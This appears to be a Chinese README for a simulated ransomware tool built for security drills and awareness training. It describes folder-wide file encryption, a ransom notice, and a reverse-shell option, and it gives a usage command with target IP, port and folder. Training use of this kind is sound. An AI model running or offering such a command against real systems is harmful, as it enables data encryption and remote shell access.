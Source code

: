## 使用场景
因安服需要进行应急演练及安全意识教育，不能对生产环境造成破坏，故使用模拟勒索进行演示，达到寓教于乐的效果

### 声明

本程序仅模拟勒索病毒环境，加密指定文件夹下的所有文件，在加密完成后显示勒索提示;提供IP及端口可进行反弹shell。 

仅供学习或用于安全意识培训提供参考，未经授权请勿进行破坏性测试，利用提供的信息造成的直接或间接损失，由使用者承担。

### 使用方法

使用参数-h查看
![image-20230531182210373](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20230531182210373.png)

#### 给定IP端口反弹shell,加密指定文件夹中的文件

``` 
racket.exe -H IP -P port "C:\Users\Administrator\Desktop\test"
```

![image-20230531191933670](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20230531191933670.png)

#### 

![image-20230531192758763](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20230531192758763.png)